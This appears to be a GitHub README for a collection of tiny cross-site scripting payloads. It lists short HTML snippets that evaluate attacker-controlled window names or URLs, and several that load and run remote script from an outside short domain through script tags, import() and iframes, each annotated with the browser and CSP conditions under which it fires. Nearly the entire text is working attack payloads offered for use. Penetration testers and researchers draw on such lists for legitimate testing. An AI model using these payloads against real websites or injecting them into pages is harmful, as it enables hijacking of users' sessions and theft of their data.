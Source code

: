# Tiny-XSS-Payloads
A collection of short XSS payloads that can be used in different contexts.

The DEMO available here: <https://tinyxss.terjanq.me>


## Current Payloads
```html
<!-- Only works as reflected XSS -->
<svg/onload=eval(name)>
```

```html
<!-- If you control the URL -->
<svg/onload=eval(`'`+URL)>
```

```html
<!-- If you control the name, but unsafe-eval not enabled -->
<svg/onload=location=name>
```

```html
<!-- In chrome, also works inside innerHTML, even on elements not yet inserted into DOM -->
<svg><svg/onload=eval(name)>
```

```html
<!-- If you control window's name, this payload will work inside innerHTML, even on elements not yet inserted into the DOM -->
<audio/src/onerror=eval(name)>
```

```html
<!-- If you control the URL, this payload will work inside innerHTML, even on elements not yet inserted into the DOM -->
<img/src/onerror=eval(`'`+URL)>
```

```html
<!-- Just a casual script -->
<script/src=//Ǌ.₨></script>
```

```html
<!-- If you control the name of the window -->
<iframe/onload=src=top.name>
```

```html
<!-- If you control the URL -->
<iframe/onload=eval(`'`+URL)>
```

```html
<!-- If number of iframes on the page is constant -->
<iframe/onload=src=top[0].name+/\Ǌ.₨?/>
```

```html
<!-- for Firefox only -->
<iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">
```

```html
<!-- If number of iframes on the page is random -->
<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>
```

```html
<!-- If unsafe-inline is disabled in CSP and external scripts allowed -->
<iframe/srcdoc="<script/src=//Ǌ.₨></script>">
```

```html
<!-- If inline styles are allowed -->
<style/onload=eval(name)>
```

```html
<!-- If inline styles are allowed and the URL can be controlled -->
<style/onload=eval(`'`+URL)>
```

```html
<!-- If inline styles are blocked -->
<style/onerror=eval(name)>
```

```html
<!-- Uses external script as import, doesn't work in innerHTML -->
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<svg/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import,  triggers if inline styles are allowed.
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<style/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import -->
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<iframe/onload=import(/\\Ǌ.₨/)>
```

Deprecated:

```html
<!-- If you control the URL, Safari-only -->
<iframe/onload=write(URL)>
```

```html
<!-- If inline styles are allowed, Safari only -->
<style/onload=write(URL)>
```
